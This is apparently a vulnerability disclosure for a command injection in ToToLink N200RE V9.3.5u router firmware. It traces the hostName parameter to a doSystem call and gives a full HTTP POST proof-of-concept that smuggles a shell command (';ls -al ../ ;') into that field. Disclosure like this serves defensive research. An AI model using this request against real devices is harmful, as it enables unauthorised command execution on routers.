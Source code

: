 # ToTolink N200RE V9.3.5u setOpModeCfg command injection

Vulnerability description: ToTolink N200RE V9.3.5u was found to have a command injection at /cgi-bin/cstecgi.cgi through hostname parameters.

![1.png](img/1.jpg)

Firmware Download: https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/204/ids/36.html

### 1.hostname

Locate the key code in function sub-41A0F8 through the doSystem danger function (as shown in the figure below), and the function call relationship of sub-41A0F8 is sub_420000()-->sub_41F494()-->sub_41A0F8()

![1.png](img/2.png)

By reading the code of the sub-41A0F8() function, we can know that firstly, proto cannot be 0, 3, 4, or 6, and secondly, hostname cannot be empty.

![1.png](img/3.png)

#### Payload

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 172.16.7.140
Content-Length: 101
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://172.16.7.140
Referer: http://172.16.7.140/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"topicurl" : "setOpModeCfg",
"proto" : "8",
"switchOpMode" : "1",
"hostName" : "';ls -al ../ ;'"}
```

#### Demo

![1.png](img/4.png)
